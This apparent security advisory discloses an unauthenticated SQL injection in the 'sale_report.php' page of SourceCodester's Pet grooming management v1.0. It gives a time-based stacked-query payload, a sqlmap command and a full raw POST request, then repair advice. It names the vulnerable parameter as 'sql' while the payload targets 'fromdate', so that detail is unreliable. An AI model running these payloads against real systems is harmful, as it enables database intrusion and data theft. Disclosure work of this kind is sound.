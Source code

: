 # Pet grooming management sale_report.php  v.1.0  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'sale_report.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve authorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "sale_report.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC

## Vulnerability type:

- stacked queries
## Vulnerability location:

- "sql" parameter
## Payload:

```
Parameter: MULTIPART #1* ((custom) POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)                                        Payload: ------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="fromdate"
2025-09-04';SELECT SLEEP(5)#                                          
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="todate"
2025-09-13                                                            
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="search"

------WebKitFormBoundary8VPUBCcI7nhUUX8y--
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#
```

![image-20250917223944.png](./assets/image-20250917223944.png)
## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /pet_grooming/admin/sale_report.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 357
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8VPUBCcI7nhUUX8y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/pet_grooming/admin/sale_report.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="fromdate"

2025-09-04*
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="todate"

2025-09-13
------WebKitFormBoundary8VPUBCcI7nhUUX8y
Content-Disposition: form-data; name="search"


------WebKitFormBoundary8VPUBCcI7nhUUX8y--

```
# Attack results

![image-20250917224302.png](./assets/image-20250917224302.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.